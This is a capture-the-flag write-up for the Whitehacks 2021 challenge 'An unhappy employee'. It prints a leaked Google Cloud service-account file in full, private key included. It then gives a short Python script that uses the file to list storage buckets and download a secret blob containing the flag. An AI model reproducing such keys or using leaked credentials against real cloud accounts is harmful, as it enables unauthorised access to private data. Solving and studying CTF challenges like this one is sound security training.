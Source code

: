 # An unhappy employee

## Description

CTF: Whitehacks 2021

Fred Chee Hong Kat, a developer for Bug Bug Dev Ptd. Ltd, is a disgruntled
employee with poor security hygiene! He has been flagged multiple times for poor
password practices! Now, it finally hits him! Our threat intelligence feed
discovered a set of leaked credentials available on the Dark Web. Can you help
us investigate the matter? We need to know if our company's secrets are
compromised!

<br />
<a href="/files/whitehacks-2021/creds.json" download>
  creds.json
</a>

## Solution

_Pwned by [@teamfreestuff](https://github.com/teamfreestuff)_

A JSON file with credentials to a **Google Cloud service account** is provided.

```json
{
  "type": "service_account",
  "project_id": "whitehacks-csg-2021",
  "private_key_id": "7bdfb6adba76a4dbcd9b5fee23bf24fb60512e30",
  "private_key": "-----BEGIN PRIVATE KEY-----\nMIIEvQIBADANBgkqhkiG9w0BAQEFAASCBKcwggSjAgEAAoIBAQCqGwhc9YNpgTV6\nLNycfDn6yQ0JTErW/MrZEy13HrxKk70mpNWCos3sfj3gTmYpQuC3Fq4zCY29RYQF\nqWCMABr0+oNdt4qgfgvwlRMljM4LWbu2SDh2v+/r7Ho7/SoDT4V4iZHve+eJEdr+\nCuV6Oioi8ovrD2DNhS1vwXvqOMnSG3xGZpJlgdbgPdZy3vs090wsJOJzcBgHq1sw\nYL+SDYYrxsKmAfHsmRaLBOOLdNqtBCLXSs9MtR05vdJClWKAYBdPOO/c/WNJs0dL\nhEDQkjsIjDHMlnu6KSwsrGuITthSE8gAAfhEr/FvdRRIRLPPtQgDxnc+vGSLthWQ\n9R0erD4jAgMBAAECggEAAP98mpMELNvJtQhLWQ2vh2WjknDkpYNBK2nd4+uFvkhE\nnVPtPsF2xNLuyQCcv9Q5HknfRsRhFQGx5xiZzOh5QAOyPpwDj7J9nnE5dghv8wgZ\nPlYJIsU4gqFWDEENfIx8Y3snJIkNEDRPHRtyQjfSJHdY0824yyvjWtr/P54KrRVi\nv0uVKb3StrWmE22vJdfcE9S/2lLFOEK1UeZB7mv3Dz96qG/j0nddjFZRCWiyWdnt\ntnovdRrbIltg9M2b1D53MvGuB+IrUxo4m2XAuL9DAAq/tj+eAqy0GpyXeMisGHDI\nDHEnPB/N50UQkVH5EtTjByyVHCrz09Xvqjt9nmQWlQKBgQDaLfkLOMqn38o4L9vf\n3lJE2fwmDlLwuNQIDBMobd070FOcdPZ3U1k/XpsTqykan4Q+ld6FzMb0JANaD532\ntnPWMfmipkbLYAEPtLeMPFMd2f00z9yzBbfJz+CtLfFKCX2QTB6wJ5y7tSao4OvW\n3YL5Y+Nw2tkor/6tRd65WEQT7wKBgQDHl7V2UFhWQx+JkhG0HwudVPAFQGmxG59Y\nEEcLiXWLy/G2udW1nh41P8/DaKEh5LMdk7eQ4ULkCGdecddf5wWXunTqTOJlzAmh\nX0x1qTr0Xaod8i/KgghV1ddW52tI9xu3uGn9Br6iiWQqkJmEMSPV/bDmmRwpsJjH\nuSx11JV1DQKBgQCwrBuH38QS7l/k4bRNcszxngbVljHJZhGkNoro6RYF0mtyPTA7\nbg3OB8DRy37sZRGEUH2xoSHWHrdsHUtPtWzVnQBFmhmnpCUX38Hl2A+CE7w7ILrZ\naJ7r195aveIujsLTryAGiv0a7tTQWdn/0r21TxKkl0LT9Lfo/bQeKABwlwKBgFZP\nMFU9YTXMSPMAi09MrYUXmcNrm0jPHRTD1TUT+BS/2IKf0d57xaxZL8rcj/FMKHh9\nzD+GaZqaV7jrmasLB8wZAT3giXZjyTZTM4kd6TSK3GmetTPpDxmvIzOdVzNySDYm\nNQ8Jv54hs4MEjJ4xccGztq/BPgB5MVgMp0E88HRxAoGAJoaIv410ekQoaVX9L8Rl\no6ZjWD6GTMT6Uw2VSIdBg0pP23RIIheWj5M8g8YMPvelyAOZBS8L9Z2rZbgzZ9PJ\nHSMTVuGVmj/Ygz5axYTQUDUyqZavO6ILcdlfXhe1Ycf/nfCyFcM0yS1vkNvFvYbX\nqxBm8Zs13zFUFhF5+0jkhFE=\n-----END PRIVATE KEY-----\n",
  "client_email": "fredchkmsa@whitehacks-csg-2021.iam.gserviceaccount.com",
  "client_id": "106171336443241412522",
  "auth_uri": "https://accounts.google.com/o/oauth2/auth",
  "token_uri": "https://oauth2.googleapis.com/token",
  "auth_provider_x509_cert_url": "https://www.googleapis.com/oauth2/v1/certs",
  "client_x509_cert_url": "https://www.googleapis.com/robot/v1/metadata/x509/fredchkmsa%40whitehacks-csg-2021.iam.gserviceaccount.com"
}
```

We can use the python library
[`google-cloud-storage`](https://pypi.org/project/google-cloud-storage/) to
check if there is anything on **Cloud Storage** accessible by the service
account.

```python
from google.cloud import storage

storage_client = storage.Client.from_service_account_json("creds.json")

buckets = list(storage_client.list_buckets())
print(buckets)  # There's a bucket called "fred_chkn".

blobs = list(storage_client.list_blobs("fred_chkn"))
print(blobs)  # There's a blob called "secret.txt"

# Download the blob
storage_client.bucket("fred_chkn").blob("secret.txt").download_to_filename("flag.txt")
```

The flag can be found inside the downloaded blob.

`WH2021{ea$y_Cl0uD_Ch@ll3ng3}`
